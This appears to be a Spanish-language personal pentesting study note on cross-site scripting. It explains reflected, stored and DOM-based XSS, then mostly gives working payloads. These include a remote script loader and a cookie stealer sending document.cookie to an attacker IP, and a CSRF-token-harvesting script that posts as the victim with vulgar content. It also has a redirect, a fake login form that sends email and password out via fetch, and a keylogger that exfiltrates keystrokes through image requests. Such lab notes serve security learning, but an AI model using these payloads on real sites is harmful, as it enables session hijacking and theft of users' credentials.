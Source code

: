 ----
- Tags: #ataque #basic #practica #xss 
----

# ¿ Que es? 

### Es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocentimiento. Esta vulnerabilidad permite al atacanta robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

---

# Tipos de vulerabilidades XSS 

- ## Reflejado (Reflected)
### Este tipo de **XSS** se produce cuando los datos proporcionados por le usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario. 

- ## Almacenado (Stored)
### Este tipo de **XSS** se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada ve que se carga la página. 

- ## DOM-Based
### Estipo tipo de **XSS** se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Document Object Model). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

---

- # Fines 

### Los fines de esta vulnerabilidad se basan tanto en el contexto, como en el atacante y sus fines. Pero se podrian realizar multiples ataques.

- ## Intentar robar cookie de sesión 

### El fin de esto claramente es realizar un **cookie hijacking** para secuestrar la sesión del usuario que visite la sección vulnerable a **XSS** de la página.

- #### Ejemplo:

#### En el campo vulnerable podriamos ingresar algo como:

```html
<script src='http://{nuestra_ip}/get_cookie.js'
```

#### Y levantar un servidor en python con nuestro archiv 'get_cookie.js' malicioso: 

```javascript
var request = new XMLHttpRequest();
request.open('GET', `http://192.168.1.38/?cookie=${document.cookie}`);
request.send();
```

### Hablamos de un **INTENTO** de robo de sesión ya que si la cookie tiene la opción httpOnly checkeada, seria imposible. 

- ## Realizar acciones como un usuario

### En este ejemplo, interceptamos con [[Burpsuite]] la petición en la sección vulnerable a **XSS** la cual estaba en una página al hacer una publicación, por lo que se realizaba un **POST** a la ulr tramitando la data ingresada por el usuario a la par que un campo extra el cual se alojaba en la respuesta del servidor por lo que en caso de que fuese dinamico, lo primero que hacemos es capturar este para posteriormente realizar un post como el usuario.

- #### Ejemplo:

#### En el campo vulnerable podriamos ingresar algo como:

```html
<script src='http://{nuestra_ip}/make_post.js'
```

#### Y levantar un servidor en python con nuestro archiv 'make_post.js' malicioso: 

```javascript
const domain = "http://localhost:10007/newgossip";
const req1 = new XMLHttpRequest(); 
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send(); 

let response = req1.responseText; 
let parser = new DOMParser();
let doc = parser.parseFromString(response, 'text/html')
let token = doc.getElementsByName('_csrf_token')[0].value; 

const data = `title=ME+GUSTA+LA+VERGA&subtitle=Este+laburo+es+una+mierda&text=Estoy+re+caliente&_csrf_token=${token}`

const req2 = new XMLHttpRequest(); 
req2.open('POST', `http://localhost:10007/newgossip`, false)
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
req2.send(data); 
```

- ## Redirigir a páginas de phishing propias

### El fin de esto es redirigir al usuario, no hace falta que sea a una página de phishing, podria ser cualquier recurso, por lo que en el campo vulnerable se deberia introducir: 

```html
<script>
	window.location.href = 'url'
</script>
```


- ## Intentar realizar un inicio de sesión

### En la sección vulnerable  podriamos ingresar un codigo malicioso jugando con JavaScript para intentar crear un formulario de inicio de sesión el cual nos mande las credenciales ingresadas por el usuario a un recurso nuestro.

```html
<div id="formContainer"></div>

<script> 
	var email;
	var password;
	var form = '<form>' + 'Email: <input type="email" id="email" required>' + '<br><br>' + 'Contraseña: <input type="password" id="password" required>' + '<br><br>' + '<input type="button" onclick="submitForm()" value="Ingresar"' + '</form>';
	
	document.getElementById("formContainer").innerHTML = form;
  
	function submitForm(){
		email = document.getElementById("email").value;
		password = document.getElementById("password").value;
	    console.log("Funciona", email, password)
		fetch(`http://192.168.1.38/?email=${email}&password=${password}`);
	}
</script>
```

- ## Realizar un 'key logger'

```html
<script>
	let keys = ""; 

	document.onkeypress = function(e){
		e = e || window.event; 
		keys += e.key;
		keys = keys.replace(" ", ","); 
		var i = new Image(); 
		i.src = `http://192.168.1.38/${keys}`; 
	};
</script>
```

### Con este script capturariamos las pulsaciones del usuario, y las mandariamos a una ip en particualar, donde podriamos tenerun servidor de python y filtrando por esta data que nos llega `python -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'`. 
